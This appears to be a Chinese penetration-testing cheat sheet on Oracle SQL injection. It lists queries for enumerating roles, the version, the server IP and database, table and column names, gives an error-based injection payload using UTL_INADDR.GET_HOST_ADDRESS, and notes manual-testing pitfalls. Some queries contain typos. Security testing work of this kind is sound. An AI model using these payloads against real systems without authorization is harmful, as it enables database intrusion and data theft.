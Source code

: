 # 2 Oracle

## 2.1 常用信息及语句

注释符： 
`-- +`

当前用户权限： 
`select * from session_roles`

当前数据库版本： 
`select banner from sys.v_$version where rownum=1`

服务器监听IP： 
`select utl_inaddr.get_host_address from dual`

服务器操作系统： 
`select member from v$logfile where rownum=1`

服务器sid： 
`select instance_name fromv$instance`

当前连接用户： 
`select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual`

获取数据库名： 
`select owner from all_tables where rownum=1`
依次爆出所有数据库名，假设第一个库名为`first_dbname`哪个第二个库`select owner from all_tables where rownum=1 and owner<>'first_dbname'`依次类推

获取表名： 
`select table_name from user_tables where rownum=1`，依次爆出所有表类似暴库。

获取字段名： 
`select column_name from user_tab_columns where table_name='tablename' and rownum=1`，依次爆出所有字段类似暴库。

## 2.2 报错注入

```
AND 2=UTL_INADDR.GET_HOST_ADDRESS(CHR(126)|(SLQ语句)|CHR(126))
```

## 2.3 踩的一些坑

Oracle比较玄学，能用SQLmap绝不手工，但测试中总会遇到必须用手工的，比如xml中的一个参数注入(当然也可以写tamper脚本)，总结一下自己踩到的坑。

### 2.3.1 UNION每个字段类型必须相同

比如，原先的语句是这样：

```
select 1,'2','3' from dual
```

那么后面的UNION也必须是`int,char,char`才行。
